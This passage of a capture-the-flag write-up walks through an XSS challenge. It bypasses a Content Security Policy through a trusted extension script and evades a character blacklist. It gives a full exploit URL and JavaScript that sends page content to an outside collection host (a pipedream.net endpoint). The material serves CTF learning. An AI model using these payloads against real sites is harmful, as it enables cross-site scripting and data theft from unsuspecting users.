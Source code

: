 ```js
CSCG{XSS_THE_ADMIN_FOR_THE_REAL_FLAG:>}
```

```html
bg=innerText" ><a id=backgrounds><!--
```
@import "reflected2.png"
This does not help us, since we are back at the same problem where we started, how can we exfiltrate it?

This problem took me longer than the rest of the challenge.
It turns out that CSP does not apply to `<script>` tags if they are put into the DOM by a `trusted script`. 
[Source](https://developer.chrome.com/extensions/contentSecurityPolicy#interactions)
And `backgrounds.js` is a trusted script.
Therefore `<script>alert()</script>` just works if `background.js` writes it to the document. We can use the `name` attribute and write our payload into that and use `name` as the index.
```html
bg=name" ><a id=backgrounds name="<script>alert()</script>"><!--
```
And we get our beloved popup:
@import "stage2_xss.png"
Well, we now have to bypass the backlist in `stage1` this can be done by using something like `String.fromCharCode(60)[0]`, chain everything together and add a simple exfiltrate script.
The final script looks like this:
```js
c = String.fromCharCode(60,62,39)
l=`name" ><a id=backgrounds name="<script>$.get('https://[exfiltrate_website]/'.concat($('.col-8 > b')[0].textContent))"></a><!--`
p = {
  headers:{
    "Content-type":"application/x-www-form-urlencoded"
  },
  method:"POST",
  credentials:"include",
  body:`bg=${l}`
}
t = document.getElementById("stage2").href
k=function(){location=t}
fetch(t, p).then(k).catch(k)
```
I reverted the replace of the special chars, but `<` would be replaced by `${c[0]}`, `>` by `${c[1]}` and `'` by `${c[2]}`

We can now generate the full URL:
````
http://xss.allesctf.net/?search=%3Cscript%20src='http://xss.allesctf.net/items.php?cb=var+c%3dString.fromCharCode(60,62,39)//'%3E%3C/script%3E%3Cscript%20src='http://xss.allesctf.net/items.php?cb=;l%3d`name"+${c[1]}${c[0]}a+id%3dbackgrounds+name%3d${c[2]}${c[0]}script${c[1]}$.get("https://enm1wlnbn5g4.x.pipedream.net/".concat($(".col-8+${c[1]}+b")[0].textContent))${c[2]}${c[1]}${c[0]}/a${c[1]}${c[0]}!--`;//'%3E%3C/script%3E%3Cscript%20src='http://xss.allesctf.net/items.php?cb=;p+%3d+{headers:{"Content-type":"application/x-www-form-urlencoded"},method:"POST",credentials:"include",body:`bg%3d${l}`};//'%3E%3C/script%3E%3Cscript%20src='http://xss.allesctf.net/items.php?cb=;t+%3d+document.getElementById("stage2").href;k%3dfunction(){location%3dt};fetch(t,+p).then(k).catch(k);//'%3E%3C/script%3E
````
Submit that and get the flag:
@import "flag.png"
